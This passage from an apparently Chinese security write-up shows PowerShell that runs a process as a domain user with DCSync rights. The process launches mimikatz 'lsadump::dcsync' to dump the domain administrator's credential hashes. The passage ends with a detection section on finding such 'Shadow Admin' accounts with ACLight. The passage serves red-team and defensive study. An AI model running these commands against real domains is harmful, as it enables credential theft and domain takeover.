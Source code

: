(1)弹出cmd

```
$uname="test\test1"                                                      
$pwd=ConvertTo-SecureString "12345678" -AsPlainText –Force                   
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)        
Start-Process -FilePath "cmd.exe" -Credential $cred  
```

弹出的cmd下执行如下命令：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

(2)不弹框实现

```
$uname="test\test1"                                                      
$pwd=ConvertTo-SecureString "12345678" -AsPlainText –Force                   
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)        
Start-Process -FilePath "c:\test\1.bat" -Credential $cred
```

1.bat的内容如下:

```
c:\test\mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit>c:\test\1.txt
```

**注：**

使用wmic在本机实现登录用户test1会失败，错误如下：

```
ERROR:
Description = User credentials cannot be used for local connections
```

## 0x04 自动化检测DCSync后门的方法
---

具有高权限但不在高权限组的用户被称之为Shadow Admin，例如0x03中的域用户test1，仅通过查询高权限组的成员无法发现域内的Shadow Admin

**检测原理：**

枚举Active Directory中所有用户的ACL，标记出特权帐户

**实现代码：**

https://github.com/cyberark/ACLight

**利用条件：**

- Powershell v3.0
- 域内普通用户权限

**检测方法：**

执行项目中的Execute-ACLight2.bat

